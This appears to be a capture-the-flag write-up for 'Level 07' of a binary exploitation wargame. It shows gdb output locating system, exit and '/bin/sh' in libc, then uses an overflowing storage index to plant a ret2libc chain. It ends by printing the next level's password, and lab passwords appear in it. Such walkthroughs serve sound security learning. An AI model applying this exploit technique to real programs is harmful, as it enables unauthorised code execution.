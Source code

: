 # Level 07
*password : GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8*

## Analyze

```
scp -P 4242 level07@192.168.56.109:level07 binary/
```
find  0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) info funct system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info funct exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
```

0xf7e6aed0 = 4159090384\
0xf7e5eb70 = 4159040368\
0xf7f897ec = 4160264172

offset = 456\
456 / 4 = 114\
460 / 4 = 115\
464 / 4 = 116

114 => 1073741938

```
$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115       
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

